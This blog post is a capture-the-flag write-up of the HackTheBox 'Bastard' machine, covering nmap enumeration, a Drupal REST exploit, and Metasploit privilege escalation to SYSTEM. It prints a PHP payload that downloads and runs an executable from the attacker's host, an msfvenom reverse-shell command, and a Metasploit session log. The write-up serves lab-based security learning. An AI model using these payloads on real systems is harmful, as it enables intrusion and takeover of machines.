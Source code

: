 ```yaml
---
layout: post
title:  "HackTheBox - Bastard"
date:   2017-12-25 21:50:00 +0100
categories: hackthebox
image:
  feature: bastard.jpg
  credit:
  creditlink:
---
```

This post describes multiple attacks upon the Bastard box on [hackthebox.eu](http://hackthebox.eu).  I've found myself updating and transferring my old blog in some of the dead hours of today and Piers Morgan somehow made it on the Netflix special I was watching with the family.  Couldn't resist a dig!

Introduction
==========
Bastard is very much a box about understanding your environment much in the same vein as Optimum.  In fact I would say this box is a good follow up to Optimum as it takes a lot of the lessons from that box but makes it a little bit harder.

Enumeration
==========

Nmap
--------

```bash
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
```

Instantly we know two things about this box.  It's running Drupal and the host is windows.  This does affect getting a shell slightly, as I'd been so used to returning a shell on Linux LAMP stack boxes that I was sending incorrect shells most of the time.  Despite the name however, this isn't as bad as it sounds.  You'll take a lot of lessons from this device that will go into exploiting harder boxes.

So, looking around we quickly realise that this version of Drupal is 7.54.  This is fairly recent but not ridiculously so.  Checking exploit-db also only yields one applicable exploit.  [https://www.exploit-db.com/exploits/41564/](https://www.exploit-db.com/exploits/41564/)

I won't go in depth on how this exploit works, but the cliff-notes are that it attacks a REST endpoint created by the services extension.  To exploit we just need to find out the name of the REST endpoint (security through obscurity).  Honestly, exploiting this is simply a case of reading the exploit and the attached write-up. 

So to find the rest-endpoint just fire up your favourite web directory scanner and let 'er rip.  This one took a while, but in the end we found it, it's just `/rest`.  So change the endpoint to /rest and then the payload is uploaded to the server.  You can either replace it with your own in the exploit file, giving you an instant shell, or you can use the default one to get a shell.

Exploitation
-------------

So now we have the rest endpoint location, we just need to run it on the directory we found.  This uploads a php backdoor which will execute any php we send in a post request.  Adjusting the payload is quite finnicky considering what we're working with is a windows server, so in cases like that I use the below:
```php
file_put_contents("meta.exe", fopen("http://10.10.13.182/metasploit_https.exe", 'r'));
shell_exec('meta.exe');
```
This will download an executable shell from a http web server and then execute it.  To generate a shell msfvenom is as always our go to:
```bash
msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=10.10.13.182 LPORT=4443 > metasploit_https.exe
```
Set up a listener and we're returned a shell.


Privilege Escalation
===============

For this, we run the metasploit exploit suggester and come across a number of candidate metasploit exploits.  The below will show exploiting ms15_051_client_copy_image:
```bash
msf exploit(ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  8                yes       The session to run this module on.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.117.134  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64


msf exploit(ms15_051_client_copy_image) > set SESSION 9
SESSION => 9
msf exploit(ms15_051_client_copy_image) > set lhost 10.10.13.182
lhost => 10.10.13.182
msf exploit(ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.13.182:4444 
[*] Launching notepad to host the exploit...
[+] Process 1956 launched.
[*] Reflectively injecting the exploit DLL into 1956...
[*] Injecting exploit into 1956...
[*] Exploit injected. Injecting payload into 1956...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 10 opened (10.10.13.182:4444 -> 10.10.10.9:50058) at 2017-06-20 09:03:20 +0100

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
We have System!

